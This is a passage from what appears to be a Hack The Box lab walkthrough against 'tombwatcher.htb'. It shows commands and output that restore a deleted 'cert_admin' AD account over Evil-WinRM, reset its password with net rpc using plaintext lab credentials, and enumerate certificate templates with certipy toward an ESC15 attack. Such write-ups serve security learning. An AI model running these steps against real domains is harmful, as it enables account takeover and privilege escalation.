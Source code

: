 ```sh

cn              : cert_admin
                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/15/2024 7:57:59 PM

cn              : cert_admin
                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/16/2024 12:04:21 PM

cn              : cert_admin
                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/16/2024 12:07:27 PM

*Evil-WinRM* PS C:\Users\John\Desktop> restore-adobject -identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf


```python
!net rpc password "cert_admin" "Password1234!" -U "tombwatcher.htb"/"john"%"Password1234!" -S "tombwatcher.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


It doesn't find the ESC15 vuln because the version of certipy used for this command is the older 4.8 and not the bleeding 5.0.2 I use in a container to exploit it



```python
!certipy find -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -dc-ip 10.129.6.179 -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via CSRA
    [!] Got error while trying to get CA configuration for 'tombwatcher-CA-1' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via RRP
    [*] Got CA configuration for 'tombwatcher-CA-1'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : tombwatcher-CA-1
        DNS Name                            : DC01.tombwatcher.htb
        Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
        Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
        Certificate Validity Start          : 2024-11-16 00:47:48+00:00
        Certificate Validity End            : 2123-11-16 00:57:48+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled